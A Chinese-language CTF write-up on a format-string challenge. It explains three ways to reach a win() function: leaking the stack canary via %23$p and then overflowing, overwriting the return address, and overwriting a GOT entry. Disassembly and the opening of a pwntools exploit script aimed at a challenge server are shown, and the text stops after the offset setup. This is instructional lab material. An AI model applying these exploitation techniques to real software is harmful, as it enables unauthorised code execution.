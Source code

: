```c
  memset(&buf, 0, 0x80uLL);
  read(0, &buf, 0x7FuLL);
  printf(&buf, &buf);
  return __readfsqword(0x28u) ^ v2;
}
```

这道题，我用了三种解法，大家可以参考一下：

1. 通过格式化字符串漏洞，泄露canary的值，然后通过栈溢出覆盖返回地址（将泄露的canary值传进去）
2. 有了格式化字符串漏洞，我们就可以做到任意位置读写，泄露buf的地址，直接在`buf+0x98`处写入`win()`函数的地址（buf定义在`rbp-0x90h`，然后加上`8字节的old ebp`，所以**返回地址的位置**在`buf+0x98`处）
3. 我们对GOT表具有写权限，通过格式化字符串，**将GOT中的函数的地址改成win**，这里我用改写的是printf的地址，改完之后在调用一次这个函数就可以执行win函数了。

还有要说明的一点是，通过改写返回地址，由于破坏了原有的栈，所以最后会报错，但是我们的win函数会被执行完，能够出结果（别一看到报错信息就以为失败了，flag就在上面，仔细找找）。通过改写GOT表中的函数地址，这种方法没有破坏栈中的内容，所以不会报错。

## 方法一：

首先，无论哪种方法，都需要用到格式化字符串漏洞，所以需要找到格式化字符串的偏移。通过输入`AAAAAAAA%p`的形式去查找，发现`offset = 6`，buf的位置是`rbp-0x90`， canary的位置是`rbp-8`，可以算一下buf和canary的距离，`(0x90-8) / 8 = 17`，所以我们要泄露的canary在`6 + 17 = 23`处，为什么这么算呢，首先我们通过传入`AAAAAAAA%p`的形式去找偏移，`%p`是**以地址的格式打印**内容，我们发现偏移处为6的地方打印的是`0x4141414141414141`，也就是泄露了`buf`的内容，然后在加上`buf`与`canary`的距离，就能直接泄露canary的值了。通过`%23$p`直接打印offset为23的内容。然后在通过`buffer overflow`覆盖返回地址

![image-20200816131219560](../.gitbook/assets/image-20200816131219560.png)

```c
.text:00000000004009AA                 lea     rax, [rbp+buf]  ; buf的位置是rbp-0x90
.text:00000000004009B1                 mov     rsi, rax
.text:00000000004009B4                 mov     edi, offset format ; "-> %s\n"
.text:00000000004009B9                 mov     eax, 0
.text:00000000004009BE                 call    _printf
.text:00000000004009C3                 nop
.text:00000000004009C4                 mov     rax, [rbp+var_8] ; canary的位置是rbp-8
.text:00000000004009C8                 xor     rax, fs:28h
.text:00000000004009D1                 jz      short locret_4009D8
.text:00000000004009D3                 call    ___stack_chk_fail
```

**exp**

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context.arch = 'amd64'
debug = True
if debug:
    conn = process('./a.out')
else:
    conn = remote('220.249.52.133', 39751)

win = 0x4008DA
log.success("win addr is {}\n".format(hex(win)))
offset = 6
log.success("offset is {}\n".format(offset))
```